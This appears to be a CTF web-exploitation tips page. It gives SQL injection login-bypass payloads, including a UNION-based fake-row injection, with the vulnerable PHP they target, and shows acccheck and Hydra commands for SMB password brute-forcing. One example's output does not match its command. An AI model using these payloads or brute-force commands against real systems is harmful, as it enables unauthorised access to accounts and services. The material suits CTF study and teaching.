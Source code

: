 Learning from the CTF : Web Exploitation
========================================

This post (Work in Progress) lists the tips and tricks while doing Web Exploitation challenges during various CTF’s.

* You may want to use your browser to view the source of the web page. Sometimes, important information is hidden using comments.

* It may be helpful to learn how to 'Inspect Elements' in your browser. It helps you to distinguish each element which might be or not be hidden.

* Some symbols need to be URL Encoded when included in GET requests. 

  Reserved characters after percent-encoding

  .. code-block :: bash 

    !	#	$	&	'	(	)	*	+	,	/	:	;	=	?	@	[	]
    %21	%23	%24	%26	%27	%28	%29	%2A	%2B	%2C	%2F	%3A	%3B	%3D	%3F	%40	%5B	%5D

  Common characters after percent-encoding (ASCII or UTF-8 based)

  .. code-block :: bash 

      newline	                space	"	%	-	.	<	>	\	^	_	`	{	|	}	~
      %0A or %0D or %0D%0A	%20	%22	%25	%2D	%2E	%3C	%3E	%5C	%5E	%5F	%60	%7B	%7C	%7D	%7E

* In some web exploitation challenges, if the secret is stored on the client side and there are some javascript involved, you could possibly find the answer in the Javascript console, Browser Developer Tools. (F12 Key).

* Websites keep track of you (Whether you are login-ed or not) by keeping a cookie for you, check that if the value (if easy and most probably assigned linearly) of cookie can be changed to any user who might already be logined.

* If the Login prompt contains SQL query and check contains only one result if (mysqli_num_rows($result) !== 1), then use limit 1 such as  admin'   or 1=1 limit 1;#

 .. code-block :: bash 

   $username = $_POST["username"];
   $password = $_POST["password"];
   $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
   $result = mysqli_query($con, $query);

   if (mysqli_num_rows($result) !== 1) {
      echo "<h1>Login failed.</h1>";
      } else {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
   }

* If the Login prompt contains SQL query and checks only one result, plus have extra checks (see example below), then we can create a fake row  SQL whose value we control.

  .. code-block :: bash 

    $con = mysqli_connect("localhost", "sql2", "sql2", "sql2");
    $username = $_POST["username"];
    $password = $_POST["password"];
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = mysqli_query($con, $query);

    $logged_in = false;
    if (mysqli_num_rows($result) === 1) {
  	$row = mysqli_fetch_array($result);
  	if ($row["password"] === $password) {
        	$logged_in = true;
    		echo "<h1>Logged in!</h1>";
    		echo "<pre>User level: ", $row["user_level"],  "</pre>";
    		if ($row["user_level"] >= 1337) {
      			echo "<p>Your flag is: $FLAG</p>";
    			} else {
      		  echo "<p>Only user levels 1337 or above can see the flag.</p>";
    			}
  		}
	  }

   You have to create a fake query such as

 .. code-block :: bash 

   random'AND 1=0 UNION ALL SELECT 'admin' AS username, 'hax' AS password, 2000 AS user_level --
   where  
   The ' closes the username string and 1=0 will always return false, invalidating the first half.
   The union all statement allows us to concatenate two SQL select queries, so we append UNION ALL and then our fake select statement.

		
 Don't forget to enter the same password in the password field :P

* Perl Script running on a webpage, read `Security Issues in Perl Scripts <http://www.cgisecurity.com/lib/sips.html>`_.

* In some web exploitation excercises, you can modify the GET/POST request in the burpsuite to get the flag.



Acccheck
--------

Unlike the smbmap and crackmapexec, acccheck can only be used for validating the credentials gathered.

::

  acccheck v0.2.1 - By Faiz

  Description:
  Attempts to connect to the IPC$ and ADMIN$ shares depending on which flags have been
  chosen, and tries a combination of usernames and passwords in the hope to identify
  the password to a given account via a dictionary password guessing attack.

  Usage = ./acccheck [optional]

   -t [single host IP address]
   OR 
   -T [file containing target ip address(es)]

  Optional:
   -p [single password]
   -P [file containing passwords]
   -u [single user]
   -U [file containing usernames]
   -v [verbose mode]

usage
-----

::

  acccheck -t 10.7.3.17 -u backup4idc -p bckp@123 

        SUCCESS.... connected to 192.168.4.32 with username:'Administrat0r' and password:'P@ssw0rd!'

End of Scan

Here, we can give a list of hosts in a text file format as well by specifying the '-T' flag.

Hydra
-----

Hydra is powerful command line tool which can be used for brute-forcing several services such as smb, HTTP, RSH, ssh etc. It can also be used for validating the credentials.

Usage
-----

::

  Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

  Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-ISOuvVd46] 
  [service://server    [:PORT][/OPT]]

  Options:
    -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
    -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
    -C FILE   colon separated "login:pass" format, instead of -L/-P options
    -M FILE   list of servers to attack, one entry per line, ':' to specify port
    -t TASKS  run TASKS number of connects in parallel per target (default: 16)
    -U        service module usage details
    -h        more command line options (COMPLETE HELP)
    server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
    service   the service to crack (see below for supported protocols)
    OPT       some service modules support additional input (-U for module help)

Example
-------

::

  hydra -l Administrat0r -p P@ssw0rd! -M hosts1.txt service smb  


